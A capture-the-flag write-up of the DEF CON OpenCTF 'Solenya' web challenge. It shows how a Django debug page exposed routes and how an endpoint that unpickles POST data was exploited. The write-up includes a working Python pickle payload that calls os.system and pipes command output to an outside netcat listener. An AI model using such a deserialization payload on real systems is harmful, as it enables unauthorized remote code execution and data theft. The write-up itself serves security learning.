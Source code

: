 # OpenCTF

This year Shell Collecting Club showed up late, but strong to the DEF CON OpenCTF. We are under a time crunch for getting in these writeups. They will be revised a bit better later on. So we apologize for the brevity and lack of screen shots for the time being :)


## Solenya

### Web 300

When navigating to the supplied URL for the challenge, we were greeted with a really basic page that just had a JPG of Pickle Rick from Rick and Morty. There weren't any links that I can recall, so I tried to begin enumerating the server by hand to see if I could derive more information about the service.

I tried to go to *domain*/index.html to see what that would yield.

When doing so, I was greeted with a Django error page (Debug was set to True in the `setting.py` file!) that notified me that I had tried to navigate to a route that wasn't defined in `urls.py`. This error page also lets you know what the defined routes are.

There were 2 routes in particular that were interesting. The first was `/fingerprint/` and the second was `/wubbalubbadubdub/`.

In `/fingerprint/`, we were delivered a different Ricky and Morty image.

However, in `/wubbalubbadubdub/`, we were presented with a standard Django login page.

After trying for a bit to figure out what the creds might be, this attempt was abandoned and I started looking more at the web requests happening in the background.

I noticed a call to `/fingerprint/` with a large amount of POST data. This POST data was the output of javascript fingerprinting script that was being ran through `pickle.dumps` prior to being sent over, along with a `Token` HTTP header with the value `SSdtIFBpY2tsZSBSaWNrIQ==` (b64decode -> "I'm Pickle Rick!"). 

There were a bunch of references to Pickle Rick in this website, and python pickling is known to be dangerous. Therefore, it made sense that we could try to use this for our attack.

We assumed that the pickled POST data (literally called `pickle_data`), was unpickled on the `/fingerprint/` view.

So now, it was time to see if that worked.

I started a nc listener on my laptop (`nc -l -p 42069`) and sent some pickled data that would call `os.system` with some data piped into `nc`.

Due to the rush we were under, I didn't script up the entire payload delivery, but instead set a breakpoint in the JS debugger in the brower before the POST request was sent, and then modified the `pickle_data` variable to contain my generated payload.

Here was the test:

```import requests
import cPickle
import subprocess
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('{} | nc {} {}'.format('ls', '172.31.127.66', '42069'),),)

print cPickle.dumps(Exploit())
```

When I sent this data, I received the output of `ls` in my `nc` listener! We had RCE!

Now I just massaged the payload a bit, finding the flag in a file on the server.

You can read more about the badness of Python pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/)

